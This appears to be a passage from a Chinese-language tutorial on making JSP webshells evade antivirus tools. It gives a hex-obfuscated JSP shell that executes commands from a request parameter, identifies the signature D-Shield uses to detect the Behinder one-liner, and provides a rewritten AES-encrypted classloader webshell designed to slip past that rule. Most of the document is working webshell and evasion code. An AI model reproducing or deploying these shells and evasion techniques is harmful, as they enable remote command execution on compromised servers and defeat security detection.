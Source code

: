 利用HEX编码

```
<%@ page contentType="text/html;charset=UTF-8" import="javax.xml.bind.DatatypeConverter" language="java" %>
<%
    if(request.getParameter("cmd")!=null){
        Class rt = Class.forName(new String(DatatypeConverter.parseHexBinary("6a6176612e6c616e672e52756e74696d65")));
        Process e = (Process) rt.getMethod(new String(DatatypeConverter.parseHexBinary("65786563")), String.class).invoke(rt.getMethod(new String(DatatypeConverter.parseHexBinary("67657452756e74696d65"))).invoke(null), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;byte[] b = new byte[2048];out.print("
<pre>");
        while((a=in.read(b))!=-1){ out.println(new String(b)); }out.print("</pre>");
    }
%>
```

### 寻找其他类

java中与执行命令相关的主要有两个类

```
java.lang.Runtime
java.lang.ProcessBuilder
```

我们上文中反射了Runtime类，那么同样我们也可以反射ProcessBuilder类。

原理是相同的，此处不再具体举例实现。

## 对于冰蝎JSP一句话的免杀

冰蝎JSP一句话的实现是我最佩服的一点，也是我今后想要加入到蚁剑中的功能。

由于冰蝎中改写的是Object类，所以几乎全部都是非敏感函数。目前各大杀软查杀的规则也并不是特别完善，其实特别容易免杀。

### 免杀D盾

经过二分法查找特征码，D盾对于冰蝎的查杀规则是这一句

```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

为了简洁冰蝎作者把很多东西都写到一行里了。那么我们就把其中的变量拆出来试试。

把base64解密那一块给抠出来，实例化给decoder变量。

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}
public Class g(byte []b){return super.defineClass(b,0,b.length);}}%>
<%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);
out.print(k);return;}
Cipher c=Cipher.getInstance("AES");
c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));
BASE64Decoder decoder=new sun.misc.BASE64Decoder();
new U(this.getClass().getClassLoader()).g(c.doFinal(decoder.decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```
